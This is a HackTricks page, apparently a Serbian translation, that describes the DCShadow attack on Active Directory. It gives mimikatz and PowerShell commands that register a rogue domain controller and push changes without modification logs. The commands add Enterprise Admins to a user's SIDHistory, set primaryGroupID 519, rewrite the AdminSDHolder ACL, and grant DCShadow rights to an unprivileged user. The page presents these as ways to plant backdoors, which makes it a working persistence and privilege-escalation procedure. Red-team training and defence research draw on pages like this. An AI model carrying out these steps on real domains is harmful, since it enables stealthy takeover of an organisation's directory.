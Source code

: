 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Registruje **novi kontroler domena** u AD i koristi ga da **gura atribute** (SIDHistory, SPNs...) na specificiranim objektima **bez** ostavljanja bilo kakvih **logova** u vezi sa **modifikacijama**. **Potrebne su DA** privilegije i morate biti unutar **root domena**.\
Imajte na umu da ako koristite pogrešne podatke, pojaviće se prilično ružni logovi.

Da biste izvršili napad, potrebne su vam 2 instancije mimikatz. Jedna od njih će pokrenuti RPC servere sa SYSTEM privilegijama (ovde morate naznačiti promene koje želite da izvršite), a druga instanca će se koristiti za guranja vrednosti:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Potrebna DA ili slično" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Obratite pažnju da **`elevate::token`** neće raditi u `mimikatz1` sesiji jer je to podiglo privilegije niti, ali nam je potrebno da podignemo **privilegiju procesa**.\
Takođe možete odabrati i "LDAP" objekat: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Možete primeniti promene iz DA ili od korisnika sa ovim minimalnim dozvolama:

* U **objektu domena**:
* _DS-Install-Replica_ (Dodaj/Ukloni replikat u domeni)
* _DS-Replication-Manage-Topology_ (Upravljanje replikacionom topologijom)
* _DS-Replication-Synchronize_ (Replikaciona sinhronizacija)
* **Objekat lokacija** (i njeni podobjekti) u **konfiguracionom kontejneru**:
* _CreateChild and DeleteChild_
* Objekat **računara koji je registrovan kao DC**:
* _WriteProperty_ (Ne Write)
* **Ciljni objekat**:
* _WriteProperty_ (Ne Write)

Možete koristiti [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) da dodelite ove privilegije korisniku bez privilegija (obratite pažnju da će ovo ostaviti neke logove). Ovo je mnogo restriktivnije od imanja DA privilegija.\
Na primer: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  To znači da korisničko ime _**student1**_ kada se prijavi na mašinu _**mcorp-student1**_ ima DCShadow dozvole nad objektom _**root1user**_.

## Korišćenje DCShadow za kreiranje zadnjih vrata

{% code title="Postavi Enterprise Admins u SIDHistory za korisnika" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Promeni PrimaryGroupID (stavi korisnika kao člana Domain Administrators)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Izmenite ntSecurityDescriptor AdminSDHolder-a (dajte punu kontrolu korisniku)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Dodelite DCShadow dozvole koristeći DCShadow (bez izmenjenih logova dozvola)

Moramo dodati sledeće ACE-ove sa SID-om našeg korisnika na kraju:

* Na objektu domena:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Na objektu računara napadača: `(A;;WP;;;UserSID)`
* Na objektu ciljanog korisnika: `(A;;WP;;;UserSID)`
* Na objektu Lokacije u Konfiguracionom kontejneru: `(A;CI;CCDC;;;UserSID)`

Da biste dobili trenutni ACE objekta: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Primetite da u ovom slučaju treba da napravite **several changes,** ne samo jednu. Dakle, u **mimikatz1 sesiji** (RPC server) koristite parametar **`/stack` sa svakom izmenom** koju želite da napravite. Na ovaj način, biće vam potrebna samo **`/push`** jednom da izvršite sve zadržane promene na lažnom serveru.

[**Više informacija o DCShadow na ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
